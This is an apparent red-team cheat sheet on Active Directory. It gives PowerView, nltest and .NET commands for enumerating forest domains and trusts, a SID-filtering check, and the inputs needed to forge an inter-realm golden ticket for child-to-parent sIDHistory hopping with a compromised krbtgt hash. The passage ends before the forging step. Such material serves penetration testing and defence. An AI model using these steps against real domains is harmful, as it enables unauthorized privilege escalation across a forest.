 Get all domains in a fores:

```
PV2 > Get-NetForestDomain [-Forest megacorp.local]
PV3 > Get-ForestDomain [-Forest megacorp.local]
```

Enum trusts for current domain via `nltest` and .NET:

```
Cmd > nltest /trusted_domains
PS > ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

Enum trusts via Win32 API and LDAP (PowerView):

```
PV2 > Get-NetDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust -API [-Domain megacorp.local] | ft

PV2 > Get-NetDomainTrust -LDAP [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust [-Domain megacorp.local] | ft
```

Build domain trust mapping:

```
PV2 > Invoke-MapDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrustMapping [-Domain megacorp.local] | ft
```




## sIDHistory/ExtraSids Hopping

* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)
* [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)

Abusing Bidirectional ParentChild trust between **child.megacorp.local ⟷ megacorp.local**.

Check if SID filtering is enabled for a trust:

```
Cmd > netdom.exe trust child.megacorp.local /domain:megacorp.local /quarantine
SID filtering is not enabled for this trust. All SIDs presented in an
authentication request from this domain will be honored.
```

For creating a cross-trust golden ticket (forged inter-realm TGT) we'll need:

1. child domain FQDN (`child.megacorp.local`);
2. name of the child domain's DC machine account and its RID (`DC01$`, `31337`);
3. SID of the child domain (`S-1-5-21-4266912945-3985045794-2943778634`);
4. SID of the parent domain (`S-1-5-21-2284550090-1208917427-1204316795`);
5. compomised krbtgt hash from the child domain (`00ff00ff00ff00ff00ff00ff00ff00ff`);
6. ???
7. PROFIT.
